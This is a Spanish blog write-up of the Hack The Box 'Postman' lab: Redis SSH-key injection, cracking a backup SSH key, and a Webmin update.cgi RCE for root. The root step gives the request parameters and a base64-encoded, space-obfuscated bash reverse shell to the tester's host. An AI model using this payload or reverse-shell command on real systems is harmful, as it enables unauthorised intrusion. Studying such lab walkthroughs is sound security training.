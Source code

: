 ```yaml
---
layout: post
title: Write-Up Máquina Postman HTB
date: 2021-01-14 10:23 +0800
last_modified_at: 2021-01-14 10:28 +0800
tags: [htb, writeup, ssh, Redis, Webmin, Linux]
toc:  true
---
```

![Postman-Card](/assets/imagenes/2021-01-14-postman-HTB/Postman-card.png)

---
## Introducción

La máquina Postman corre un sistema linux de 64 bits y tiene un nivel de dificultad fácil. Para la explotación inicial, vamos a hacer uso de una vulnerabilidad de escritura de ficheros que afecta al servicio Redis entre las versiones 4.0 y 5.0. Posteriormente a esto vamos a utilizar una clave privada que se encentra en un directorio de la maquina para realizar un movimiento lateral y asi conseguir el user. Para la escalada de privilegios, vamos a hacer uso de una vulnerabilidad de rce en el servicio webmin con la que obtendremos una shell reversa.

---
## Escaneo

![Postman-nmap](/assets/imagenes/2021-01-14-postman-HTB/Postman-nmap.png)

El escaneo de la maquina nos revela que tenemos abiertos los puertos:
* 22 ----> SSH
* 80 ----> http
* 6379 --> Redis
* 10000 -> http

### Puerto 80 (apache)

En el puerto 80 nos encontramos con una web que dice estar en construccion:

![Postman-web](/assets/imagenes/2021-01-14-postman-HTB/Postman-web.png)

En este caso la web no aloja nada que nos interese para la explotación.

### Puerto 3679 (Redis)

Buscando informacion sobre la version de redis encontramos un articulo de medium que habla sobre [como obtener una rce en Redis](https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0).
Para nuestro caso vamos a modificar un poco los comandos que ejecuta, pero la base es la misma.
El procedimiento que vamos a seguir en este caso es crear un par de claves RSA  e inyectarlas al servidor Redis para escribirlas en el fichero authorized_keys del user redis.

### Puerto 10000 (Webmin)

En el puerto 10000 nos encontramos un webmin desactualizado del que no tenemos ningun tipo de credencial.

---

## Explotación

Lo primero, vamos a generar nuestro par de claves:

![Postman-id-rsa-redis](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-redis.png)

Una vez generadas vamos a empezar a interactuar con el servidor redis para para inyectar nuestra clave publica en las claves autorizadas.

![Postman-explotacion](/assets/imagenes/2021-01-14-postman-HTB/Postman-explotacion-redis.png)

Una vez hecho esto, le asignamos los permisos correctos a nuestra clave privada (600) y nos conectamos por ssh.

![Postman-ssh](/assets/imagenes/2021-01-14-postman-HTB/Postman-ssh-redis.png)

---

## Movimiento lateral

Si nos vamos al directorio /opt, veremos un fichero llamado id_rsa.bak el cual es propiedad del user Matt.

![Postman-id_rsa.bak-dir](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-matt-bak-opt.png)

Ya que tenemos la clave privada vamos a copiarla y a intentar crackearla con la herramienta john the ripper.
Pero primero tenemos que pasar la clave privada a un formato entendible para john, porlo que vamos a isar la herramienta `/usr/share/john/ssh2john.py`. El comando quedaria de la sigiente manera:
* /usr/share/john/ssh2john.py id_rsa.bak > id_rsa-bak.txt (Para las ultimas versiones de ParrotOs y Kali que no traen el paquete python hay que editar la primera linea del fichero y cambiar *python* por **python2.7**).

Una vez ejecutado ya podemos intentar crackear la clave.

![Postman-cracked-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-cracked-matt.png)

**¡¡Ya tenemos una posible password para el user Matt!!**

Vamos a probarla.

![Postman-su-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-su-Matt-succesful.png)

Ya somos Matt.

![Postman-Matt-flag](/assets/imagenes/2021-01-14-postman-HTB/Postman-prueba-Matt.png)

---

## Escalada de privilegios

Para la escalada de privilegios nos vamos a aprovechar de una vulneravilidad en el servicio webmin que nos permitira llamar a una shell reversa a traves de bash.

Primero vamos a encodear el comando en base64.

![Postman-bash-payload](/assets/imagenes/2021-01-14-postman-HTB/Postman-bash-payload.png)

Ahora generaremos el payload que vamos a mandar al servidor.

![Postman-peticion](/assets/imagenes/2021-01-14-postman-HTB/Postman-peticion.png)

* URL: 10.10.10.160:10000/package-updates/update.cgi
* Method: POST
* payload: u=acl%2Fapt&u=$(command)

En nuestro caso la string del comando es:
```bash
echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi8xMjM0IDA%2bJjEn|base64${IFS}-d|bash
```
${IFS} se usa para sustituir los espacios y %2b es para sustituir los simbolos + y que no se transformen en espacios.

Con el listener levantado recibiremos la conexion.

![Postman-rev-shell-root](/assets/imagenes/2021-01-14-postman-HTB/Postman-rev-shell-root.png)








